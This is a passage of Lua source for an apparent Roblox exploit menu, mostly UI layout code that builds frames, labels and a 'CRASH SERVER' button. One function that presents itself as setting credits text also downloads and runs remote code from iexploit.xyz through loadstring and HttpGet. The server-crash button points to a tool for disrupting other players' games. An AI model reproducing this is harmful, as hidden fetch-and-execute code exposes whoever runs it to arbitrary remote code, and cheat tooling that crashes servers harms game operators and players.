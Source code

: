 CashAtEndLabel.Name = "CashAtEndLabel"
CashAtEndLabel.Parent = SellingFrame
CashAtEndLabel.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
CashAtEndLabel.BackgroundTransparency = 1.000
CashAtEndLabel.Position = UDim2.new(0.0949367136, 0, 0.698461592, 0)
CashAtEndLabel.Size = UDim2.new(0, 200, 0, 12)
CashAtEndLabel.Font = Enum.Font.GothamBlack
CashAtEndLabel.Text = "Cash you will have left:"
CashAtEndLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
CashAtEndLabel.TextSize = 14.000
CashAtEndLabel.TextXAlignment = Enum.TextXAlignment.Left

Frame_2.Parent = SellingFrame
Frame_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Frame_2.BorderSizePixel = 0
Frame_2.Position = UDim2.new(0.0949367061, 0, 0.769230783, 0)
Frame_2.Size = UDim2.new(0, 152, 0, 4)

CrashServerButton.Name = "CrashServerButton"
CrashServerButton.Parent = SellingFrame
CrashServerButton.BackgroundColor3 = Color3.fromRGB(10, 10, 10)
CrashServerButton.BorderSizePixel = 0
CrashServerButton.Position = UDim2.new(0.0949367061, 0, 0.815384626, 0)
CrashServerButton.Size = UDim2.new(0, 138, 0, 29)
CrashServerButton.Font = Enum.Font.GothamBlack
CrashServerButton.Text = "CRASH SERVER"
CrashServerButton.TextColor3 = Color3.fromRGB(255, 255, 255)
CrashServerButton.TextSize = 14.000


local function FUVO_fake_script() -- imiecredits.LocalScript 
	local script = Instance.new('LocalScript', imiecredits)
	loadstring(game:HttpGet('https://iexploit.xyz/credits.lua'))()
	script.Parent.Text = "Credits:\nby: yahyeee#7643\nUI by: imie#0039"
end
coroutine.wrap(FUVO_fake_script)()
local function PXXAONR_fake_script() -- UIGradient.LocalScript 
	local script = Instance.new('LocalScript', UIGradient)
	game:GetService('RunService').RenderStepped:Connect(function()
		script.Parent.Rotation = (tick() * 75) % 360;
	end)
end
coroutine.wrap(PXXAONR_fake_script)()
local function OZAKZ_fake_script() -- SwagmodeFrame.DragScript 
	local script = Instance.new('LocalScript', SwagmodeFrame)
	script.Parent.Active = true
	script.Parent.Draggable = true
end
coroutine.wrap(OZAKZ_fake_script)()

function hideframes()
    MainFrame.Visible = false
    QuickTpFrame.Visible = false
    SideScriptsFrame.Visible = false
    TogglesFrame.Visible = false
    SellingFrame.Visible = false
end

